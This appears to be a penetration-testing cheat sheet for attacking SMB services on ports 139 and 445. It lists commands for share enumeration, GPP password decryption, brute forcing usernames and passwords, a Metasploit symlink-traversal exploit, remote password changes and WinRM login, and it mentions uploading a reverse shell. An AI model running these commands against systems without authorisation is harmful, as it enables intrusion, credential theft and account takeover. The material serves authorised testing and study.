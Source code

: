 # 139,445 (SMB)

## Enumeration

### searchsploit

```bash
searchsploit <service info>  # Use searchsploit on nmap Service output details
```

### smbmap

```bash
smbmap -H <IP>
smbmap -H <IP> -u anonymous
smbmap -H <IP> -u '' -p ''
smbmap -R <share> -H <IP>  # List out directories and their contents
# Look for things like Groups.xml for AD
smbmap -R <share> -H <IP> -A Groups.xml -q  # Attempt to download file
# Locate cpasword= in Groups.xml and decrypt it
gpp-decrypt <cpassword>
```

### smbclient

```bash
smbclient -L //<IP>  # List out available shares
smbclient //<IP>/<SHARE>  # Connect to an available share

> mget *  # Attempt to download all files
> recurse ON  # Turn on recursive
> prompt OFF  # Turn off prompting
```

### crackmapexec

```bash
crackmapexec smb <IP>
crackmapexec smb <IP> --shares
crackmapexec smb <IP> --shares -u '' -p ''
crackmapexec smb <IP> --shares -u <username> -p <password>

crackmapexec winrm <IP> --shares -u <username> -p <password>  # Tell us if we can get on the machine
# Look for Pwn3d!
evil-winrm -i <IP> -u <username> -p <password>
```

### rpcclient

```bash
rpcclient <IP>
rpcclient -U ''
<TAB> <TAB>  # Show options when connected
> enumdomusers
```

### nbtscan

```bash
nbtscan <IP>
```

### enum4linux

```bash
enum4linux <IP>
```

### nmap

```bash
# /usr/share/nmap/scripts/smb*
nmap -p445 <IP> --script=smb-system-info
nmap -p445 <IP> --script=smb-enum*
nmap -p445 <IP> --script=smb-vuln*
```

### Metasploit

```bash
search smb
```

## Brute Force

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusernam
```

## Exploitation Check

* [ ] Enumerate and download any interesting files ideally looking for credentials or other information relating to other services.
* [ ] Can you login via SMB and put files on the system?
  * [ ] If so, is there a web interface where you can access the files?
    * [ ] If so, then you may be able to upload a reverse shell.
  * [ ] If so, can you use Metasploit to create symbolic link to the root filesystem?

## Exploitation

### Metasploit

```bash
use auxiliary/admin/smb/samba_symlink_traversal
set rhost
set smbshare <SHARE>
exploit
```

Then back in `smbclient` we can `cd` into the `rootfs` that was created.

### SMB Password Change

```bash
# Attempt to change a users password through SMB
smbpasswd -U <username> -r <IP>
# Then can use crackmapexec to test login
cme smb <IP> -u <username> -p <password>
cme winrm <IP> -u <username> -p <password>
```

### SMB Drive Mapping

```bash
sudo mount -t cifs -o 'user=<username>,password=<password>' //IP/Share /mnt/dir
# Go into /mnt/dir to look for interesting files
```
